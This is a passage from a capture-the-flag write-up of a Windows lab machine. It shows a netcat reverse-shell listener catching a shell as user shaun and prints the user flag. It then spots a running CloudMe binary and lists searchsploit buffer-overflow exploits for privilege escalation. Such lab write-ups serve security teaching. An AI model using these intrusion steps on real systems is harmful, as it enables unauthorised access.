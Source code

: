 #### On the localhost
```
root@kali:~# nc -nlvp 4443
Listening on 0.0.0.0 4443
Connection received on 10.10.10.198 49684
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```

`user.txt` is in the `C:\Users\shaun\Desktop`.
```
C:\Users\shaun\Desktop>type user.txt
type user.txt
16a71e4eade671c342101c50b256e2ef

```


## 3. Getting Root

In `C:\Users\shaun\Downloads>` directory, we can find an interesting binary called `CloudMe_1112.exe`.
```
C:\Users\shaun\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\shaun\Downloads

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   9,840,857,088 bytes free

```

Using the following command, we can see that actually this binary is running as a process.
```
C:\xampp\htdocs\gym\upload>tasklist -v | findstr CloudMe
tasklist -v | findstr CloudMe
CloudMe.exe                   4128                            0     38,552 K Unknown

```

Run searchsploit again for `CloudMe`.<br>
We can find a buffer overflow exploit [CloudMe 1.11.2 - Buffer Overflow](https://www.exploit-db.com/exploits/48389).
```
root@kali:~# searchsploit cloudme
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                             | windows/remote/48389.py
CloudMe 1.11.2 - Buffer Overflow (SEH_DEP_ASLR)                                    | windows/local/48499.txt
CloudMe 1.11.2 - Buffer Overflow ROP (DEP_ASLR)                                    | windows/local/48840.py
```